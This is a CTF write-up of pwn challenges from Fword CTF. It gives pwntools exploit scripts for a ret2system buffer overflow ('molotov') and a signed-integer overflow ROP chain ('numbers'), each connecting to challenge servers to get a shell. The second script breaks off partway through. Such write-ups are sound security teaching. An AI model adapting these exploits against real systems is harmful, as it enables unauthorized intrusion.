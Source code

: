 ## Fword-ctf pwn challenges writeups.

I played fword ctf with team `from sousse with love` and we ranked 2nd. (loose by 3 points :( ). THe challenges were begginer friendly and well organized i mostly played pwn challenges and solved 5/6. One challenge was solved by my team mate. Here are the quick overviews of the challenges i solved and their solution/exploit/solvers scripts.

# Challenge - Molotov

### buffer-overflow- ret 2 system.

#### Exploit
```python
#!/usr/bin/python3
from pwn import *
####TL;DR
"""
Buffer-overflow; return 2 system.
"""
####Exploit
io = remote("54.210.217.206",1240)
#io = process(["./molotov"])
system = int(b"0x"+io.recvn(8),0)
libc_base = system-0x0458b0
binsh = libc_base+	0x19042d
print(f"System: {hex(system)}")
ROP  =  b"A"*0x20+p32(system)+b"A"*4+p32(binsh)+b"A"
io.sendline(ROP)
io.interactive()
```


# Challenge - numbers

### Signed integer - buffer overflow

#### Exploit
```python
from pwn import *
exe = context.binary = ELF("./numbers")

####TL;DR
"""
Signed integer can create problems. Negative number - bufferoverflow - leak - shell
"""
####Addr
pop_rdi = 0x00000ad3
pop_rsi = 0x00000ad1
main = 0x00009c5
system = 0x050300
puts = 0x081010
binsh = 0x1aae80
ret = 0x0000070e

####Exploit
#io = process(["./numbers"])
io = remote("numbers.fword.wtf",1237)
io.sendafter("mind ??",str(-1))
ROP1  =  b"A"*0x16+b"BB"
io.sendafter("?\n",ROP1)
io.recvuntil("BB")
```